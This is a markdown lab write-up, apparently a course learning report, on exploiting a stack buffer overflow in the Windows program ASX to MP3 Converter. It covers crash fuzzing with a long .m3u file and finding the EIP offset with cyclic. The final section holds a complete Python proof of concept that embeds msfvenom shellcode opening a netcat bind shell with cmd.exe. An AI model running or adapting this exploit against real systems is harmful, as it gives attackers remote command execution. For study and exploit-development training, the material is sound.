







# Windows Buffer Overflow
## 1. What is Buffer overflow
Similar with [Linux Buffer overflow](https://github.com/7heKnight/Learning-Reports/tree/main/INE/Linux%20Stack%20Smashing/Linux_BO_Foundation) theory of mine

---

## 2. Setting up environment
Download [ASX to MP3 Converter](https://www.exploit-db.com/apps/f4da5b43ca4b035aae55dfa68daa67c9-ASXtoMP3Converter.exe) and install it. After install this app, the application will locate at:
- `C:\Program Files (x86)\Mini-stream\ASX to MP3 Converter`

About the pattern, there are lots of tool like [mona](https://github.com/corelan/mona) (which is support on [Immunity Dubugger](https://www.immunityinc.com/products/debugger/)), or cyclic, or you can also use metasploit. In here I am going to use `cyclic`, to install it:
- `> pip install pwn pwntools pwnlib`

---

## 3. Finding Offset, Return Address
Open *Immunity Debugger*  , press `F3` to open the opening program menu and go to **ASXtoMP3Converter** program location and pick it.



Then, press `F9` to run, and the program's menu will appear.



Press load and see the supported file type.



In here,I will create a file with file type (*.\*m3u*) contain 18000 `A` buffers:

- `> python -c "print('A'*18000)" > Bof.m3u`

Then, re-run the program and drag the created file into load button, it will return a notification of error. Just searching on google, and (*\*.m3u*) is *MP3 URL*. So we will add `http://` to be a valid url:

- `> python -c "print('http://' + 'A'*18000)" > Bof.m3u`

After that, drag and drop it to load button again and we see that the `EIP` on Register table overrided with `0x41414141` which mean **AAAA**.



Re-run the application and create pattern with `cyclic` (which is one of tool's `pwn` library)

- `> pwn cyclic 18000` or can also use `> cyclic 18000`

Then adding `http://` in the first of string and execute it, and we got the `EIP` value is 0x78736761 use `cyclic` to find the offset:

- `cyclic -l 0x78736761` => Output is **17417**

Try to override EIP with `B`. Creating file to override it: `python -c "print('http://' + 'A'*17417 + 'B'* 4)" > Bof.m3u`



Now, we can see on `EIP` overrided with *0x42424242* which mean **BBBB**. Look down to stack table, roll up a little bit, we can see there are lots of A store in there, So I random choose the address close with the start to be the return address



---

## 4. Proof of Concept
We have already known the offset, got return address, using msfvenom to spawn the shellcode on linux machine:

- `msfvenom -p windows/exec CMD="nc -lvnp 4444 -e cmd.exe" -b '\x00' -f python`

Then copy it and make it to be a completely PoC

```python
from struct import pack  
  
# msfvenom -p windows/exec CMD="ncat -lvnp 4444 -e cmd.exe" -b '\x00' -f python
buf =  b""
buf += b"\xd9\xe8\xd9\x74\x24\xf4\xbd\x5b\xa4\x5d\x38\x58\x31"
buf += b"\xc9\xb1\x35\x31\x68\x1a\x03\x68\x1a\x83\xe8\xfc\xe2"
buf += b"\xae\x58\xb5\xba\x50\xa1\x46\xdb\xd9\x44\x77\xdb\xbd"
buf += b"\x0d\x28\xeb\xb6\x40\xc5\x80\x9a\x70\x5e\xe4\x32\x76"
buf += b"\xd7\x43\x64\xb9\xe8\xf8\x54\xd8\x6a\x03\x88\x3a\x52"
buf += b"\xcc\xdd\x3b\x93\x31\x2f\x69\x4c\x3d\x9d\x9e\xf9\x0b"
buf += b"\x1d\x14\xb1\x9a\x25\xc9\x02\x9c\x04\x5c\x18\xc7\x86"
buf += b"\x5e\xcd\x73\x8f\x78\x12\xb9\x46\xf2\xe0\x35\x59\xd2"
buf += b"\x38\xb5\xf5\x1b\xf5\x44\x04\x5b\x32\xb7\x73\x95\x40"
buf += b"\x4a\x83\x62\x3a\x90\x06\x71\x9c\x53\xb0\x5d\x1c\xb7"
buf += b"\x26\x15\x12\x7c\x2d\x71\x37\x83\xe2\x09\x43\x08\x05"
buf += b"\xde\xc5\x4a\x21\xfa\x8e\x09\x48\x5b\x6b\xff\x75\xbb"
buf += b"\xd4\xa0\xd3\xb7\xf9\xb5\x6e\x9a\x97\x48\xfd\xa0\xda"
buf += b"\x4b\xfd\xaa\x4a\x24\xcc\x21\x05\x33\xd1\xe3\x61\xcb"
buf += b"\x98\xae\xc0\x44\x44\x3b\x51\x09\x77\x91\x96\x34\xfb"
buf += b"\x10\x67\xc3\xe3\x50\x62\x8f\xa4\x89\x1e\x80\x40\xae"
buf += b"\x8d\xa1\x41\xc0\x52\x3f\x1d\x3d\xb8\xd3\xab\x53\xb2"
buf += b"\x0b\x67\x98\x06\x78\xa7\xcd\x03\xa0\xc4\x60\xa8\x8e"
buf += b"\x6f\x03\x55\xcf" 
  
offset = 17417  
nop = b'\x90'  
ret = pack('<I', 0x001480B8)  
  
payload = b'http://' + b'\x90'*100 + buf +  b'A'*(17417-100-len(buf)) + ret  
  
open('Bof.m3u', 'wb').write(payload)
```



---

## 5. Reference:
- msfvenom payloads cheatsheet: [https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9)
- Mona: [https://github.com/corelan/mona](https://github.com/corelan/mona)
- Immunity Dubugger: [https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/)
